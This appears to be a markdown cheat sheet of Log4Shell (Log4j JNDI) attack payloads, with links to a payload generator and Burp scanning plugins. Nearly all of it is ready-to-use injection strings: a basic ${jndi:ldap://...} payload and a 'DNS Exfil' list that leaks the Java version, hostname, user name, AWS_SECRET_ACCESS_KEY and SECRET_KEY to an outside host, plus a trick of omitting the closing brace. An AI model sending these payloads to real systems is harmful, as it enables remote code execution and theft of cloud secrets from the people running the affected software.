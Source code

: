 ## Basic payload
`${jndi:ldap://example.com/a}`

## DNS Exfil
```
${jndi:ldap://${env:JAVA_VERSION}.example.com/a}
${jndi:ldap://${sys:java.version}.example.com/a}
${jndi:ldap://${hostName}.example.com/a}
${jndi:ldap://${sys:java.vendor}.example.com/a}
${jndi:ldap://${env:user}.example.com/a}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.example.com}
${jndi:ldap://example.com/a${env:USER}}
${jndi:ldap://${env:SECRET_KEY}.example.com/}
```

## Omitting closing brace can lead to data exfil after "/" sign
${jndi:ldap://example.com/

## Payload generator
https://github.com/woodpecker-appstore/log4j-payload-generator

## Burp plugins
### Passive scanner checks
https://github.com/whwlsfb/Log4j2Scan

### Active scan check
https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f
